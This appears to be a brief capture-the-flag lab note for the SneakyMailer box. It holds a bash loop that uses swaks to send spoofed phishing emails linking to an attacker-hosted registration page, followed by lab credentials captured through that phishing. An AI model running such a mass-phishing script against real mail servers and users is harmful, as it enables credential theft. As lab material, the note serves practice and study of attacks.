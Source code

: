 # Phishing Users

## Using swaks (Swaks - Swiss Army Knife SMTP, the all-purpose SMTP transaction tester)

```bash
$ cat phish.sh 
for email in $(cat emails);
do
    swaks \
      --from support@sneakymailer.htb \
      --to $email \
      --header 'Subject: Please Register Your Account' \
      --body 'http://10.10.14.21/register.php' \
      --server 10.10.10.197 
done
```

```bash
bash phish.sh
```

![[Pasted image 20211213224146.png]]

![[Pasted image 20211213224324.png]]

paulbyrd@sneakymailer.htb
user:paulbyrd
`pass: ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht


### Login with Evolution
![[Pasted image 20211213233025.png]]
Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C